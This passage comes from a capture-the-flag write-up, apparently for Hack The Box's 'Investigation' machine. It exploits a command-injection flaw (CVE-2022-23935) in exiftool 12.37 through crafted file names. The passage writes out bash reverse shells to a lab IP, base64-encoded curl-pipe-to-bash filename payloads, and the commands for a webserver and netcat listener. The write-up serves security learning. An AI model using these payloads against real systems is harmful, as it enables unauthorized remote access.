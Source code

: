 The output contains the version on `exiftool` in use: `12.37`, searching for this version I find [CVE-2022-23935](https://nvd.nist.gov/vuln/detail/CVE-2022-23935) which is a command injection that effects version 12.37 and lower!

The way the exploit works is I can send `exiftool` a file with commands in the name, and as long as the name ends with a `|`, the commands will get executed, ie: `curl 10.10.14.68 |` as the file name will actually execute that curl command when `exiftool` gets it.

Unfortunately, slashes "/" really don't like to be in file names, so I'll need to get more creative in getting a reverse shell. I go for the method of base64 encoding a bash reverse shell, and then decode and execute the shell.
```bash
# Encoding the bash shell
┌──(kali㉿Kali)──[11:42:24]──[~/htb/Machines/Investigation]
└─$ echo 'bash -i >& /dev/tcp/10.10.14.78/9001 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43OC85MDAxIDA+JjEK

# I add some strategically placed spaces to make the output alphanumeric only
┌──(kali㉿Kali)──[11:42:36]──[~/htb/Machines/Investigation]
└─$ echo 'bash -i  >& /dev/tcp/10.10.14.78/9001 0>&1  ' | base64
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNzgvOTAwMSAwPiYxICAK

# The file name will be:
"echo 'Y3VybCAxMC4xMC4xNC42OC9zaGVsbC5zaAo=' | base64 -d | bash |"
```
For some reason, encoding this basic bash revshell didn't work. So I encoded a curl and a pipe to bash style reverse shell, and that worked. The way this reverse shell works is by sending a curl request to a webserver that I host containing a bash reverse shell. The output of the curl request is then piped into bash and gets executed.
```bash
┌──(kali㉿Kali)──[11:42:40]──[~/htb/Machines/Investigation]
└─$ echo 'curl 10.10.14.78/shell.sh | bash' | base64
Y3VybCAxMC4xMC4xNC43OC9zaGVsbC5zaCB8IGJhc2gK

# The filename will be (remember it needs to end with a |):
"echo 'Y3VybCAxMC4xMC4xNC43OC9zaGVsbC5zaCB8IGJhc2gK' | base64 -d | bash | bash |"

# Write a bash reverse shell to a file I will host
┌──(kali㉿Kali)──[11:45:35]──[~/htb/Machines/Investigation/www]
└─$ echo 'bash -i >& /dev/tcp/10.10.14.78/9001 0>&1' > shell.sh

# Start the webserver
┌──(kali㉿Kali)──[11:48:13]──[~/htb/Machines/Investigation/www]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

# Start a netcat listener
┌──(kali㉿Kali)──[11:48:21]──[~/htb/Machines/Investigation/www]
└─$ nc -lvnp 9001
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:9001
Ncat: Listening on 0.0.0.0:9001
```
I then upload the "image" with the malicious file name, get a hit on my web server, the revshell I'm hosting there gets executed, and I catch the reverse shell in netcat.
